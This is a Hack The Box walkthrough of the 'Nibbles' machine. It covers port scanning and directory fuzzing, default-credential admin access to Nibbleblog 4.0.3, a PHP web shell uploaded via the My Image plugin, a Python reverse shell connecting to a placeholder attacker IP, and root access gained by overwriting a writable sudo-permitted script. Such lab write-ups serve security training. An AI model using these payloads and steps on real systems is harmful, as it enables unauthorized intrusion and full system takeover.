






Machine: [Nibbles](https://app.hackthebox.com/machines/Nibbles):
Easy . Linux

---
Tags: #nibbleblog #arbitrary-file-upload #misconfiguration-abuse

---
**Vulnerabilities:**

Weak Credentials - Default Admin Dashboard Logins (admin:<PASSWORD>>)
Arbitrary File Upload - Nibbleblog 4.0.3 "My Image" Plugin Exploit (RCE)
Sudo Misconfiguration - Writeable Script Execution Allowed as Root (Privesc to root)

---
🧰 Tools used: `nmap` `ffuf` `curl` `netcat`

---
We performed a scan of open TCP ports:
```bash
❯ sudo nmap --open -Pn -p- -sS -n -vvv <VICTIM_IP>

22/tcp    open  ssh     syn-ack ttl 63
80/tcp    open  http    syn-ack ttl 63
```

We identified service versions and ran the default scripts against the discovered ports:
```bash
❯ nmap -sVC -p22,80 <VICTIM_IP> -Pn

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We inspected the webroot source by observing an exposed HTML comment:
```bash
❯ curl -s http://<VICTIM_IP>/
<b>Hello world!</b>


<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

We fuzzed internal directories under the identified `/nibbleblog/` path:
```bash
❯ ffuf -u http://nibbles.htb/nibbleblog/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nibbles.htb/nibbleblog/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

admin                   [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 185ms]
content                 [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 270ms]
languages               [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 413ms]
plugins                 [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 3484ms]
themes                  [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 3485ms]
README                  [Status: 200, Size: 4628, Words: 589, Lines: 64, Duration: 189ms]
:: Progress: [29999/29999] :: Job [1/1] :: 170 req/sec :: Duration: [0:02:57] :: Errors: 1 ::
```




We extracted the user structure and validated the existence of the `admin` account by reading the exposed `users.xml` file:
`http://nibbles.htb/nibbleblog/content/private/users.xml`


We accessed the administration panel `admin.php` using default credentials (`admin:<PASSWORD>`):


We observed that the version is `4.0.3`:


We know this version has an [Arbitrary File Upload - CVE-2015-6967](https://www.incibe.es/index.php/incibe-cert/alerta-temprana/vulnerabilidades/cve-2015-6967) vulnerability:


We uploaded a PHP webshell (`image.php`) by exploiting the file upload functionality in the active `My image` plugin:
```bash
<?php system($_REQUEST['cmd']); ?>
```


We verified remote command execution by interacting with the uploaded file in the plugin directory:
```bash
❯ curl -s "http://nibbles.htb/nibbleblog/content/private/plugins/my_image/image.php?cmd=id"
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

We started a `netcat` listener on port `4444`:
```bash
❯ nc -lvnp 4444
Listening on 0.0.0.0 4444
```

We executed a Python reverse shell by sending URL-encoded parameters to our webshell:
```bash
❯ curl -s --data-urlencode "cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<ATTACKER_IP>\",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn(\"/bin/bash\")'" http://nibbles.htb/nibbleblog/content/private/plugins/my_image/image.php
```

We received our reverse shell:
```bash
❯ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on <VICTIM_IP> 53978
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

We read the `user.txt` flag
```bash
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cat /home/nibbler/user.txt
<USER_FLAG>
```

We listed the sudo privileges assigned to the `nibbler` user:
```bash
nibbler@Nibbles:/var/www/html/nibbleblog/content/private$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

We unzipped the `personal.zip` archive located in the home directory to create the path required by the sudo rule:
```bash
nibbler@Nibbles:/home/nibbler$ ls -l
total 8
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 May 24 23:43 user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
```

We confirmed that we can modify the `monitor.sh` file
```bash
nibbler@Nibbles:/home/nibbler$ cd personal/stuff/
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
total 4
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

We replaced the contents of `monitor.sh` with a shell script:
```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo '#!/bin/bash' > monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo '/bin/bash -i' >> monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
root@Nibbles:/home/nibbler/personal/stuff#
```

We executed the modified script with `sudo` to obtain administrator privileges:
```bash
root@Nibbles:/home/nibbler/personal/stuff# id
uid=0(root) gid=0(root) groups=0(root)
```

We read the `root.txt` flag
```bash
root@Nibbles:/home/nibbler/personal/stuff# cat /root/root.txt
<ROOT_FLAG>
```